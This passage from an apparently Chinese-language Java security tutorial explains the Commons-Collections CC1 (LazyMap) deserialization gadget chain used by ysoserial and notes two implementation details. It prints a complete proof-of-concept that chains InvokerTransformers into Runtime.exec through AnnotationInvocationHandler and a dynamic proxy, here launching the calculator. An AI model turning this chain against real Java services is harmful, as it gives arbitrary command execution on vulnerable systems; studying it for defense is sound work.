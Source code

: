 但是遗憾的是，在AnnotationInvokerHandler的readObject方法中并没有调用过invoke方法。那么ysoserial提供的方法是使用动态代理，这样的话如果调用了readObject方法，并且在readObject方法中调用了对象的任意方法，就会触发代理类的invoke方法，导致命令执行。

完整的LazyMap CC1链如下：

```java
Transformer[] transformers = new Transformer[]{
  new ConstantTransformer(Runtime.class),
  new InvokerTransformer(
    "getMethod",
    new Class[]{String.class,Class[].class},
    new Object[]{"getRuntime",new Class[0]}
  ),

  new InvokerTransformer(
    "invoke",
    new Class[]{Object.class,Object[].class},
    new Object[]{null,new Object[0]}
  ),

  new InvokerTransformer(
    "exec",
    new Class[]{String.class},
    new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
  )
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap innerMap = new HashMap();
innerMap.put("value","xxx");
Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler instance = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);

Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, instance);
instance = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

```



### 两个小细节

在运行上述poc的时候，可能会出现同时打开多个计算器。这种问题的原因是我们生成了代理类的对象，那么当每次被代理类的方法被调用时，都会执行代理类的invoke方法，从而导致弹出计算器。ysoserial为了避免这个问题，特意将transformers数组最后才放置到transformerchains中。

![image-20220314233148061](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220314233148061.png)



另外一个就是ysoserial的Transformer数组在最终添加了一个`ConstantTransformer(1)`。根据P神在Java安全漫谈中的解释，是为了隐藏异常日志中的一些信息。我们这里不做深究。



## 参考资料

代码审计知识星球 - Java安全漫谈：https://wx.zsxq.com/dweb2/index/group/2212251881

白日梦组长 Bilibili ： https://space.bilibili.com/2142877265


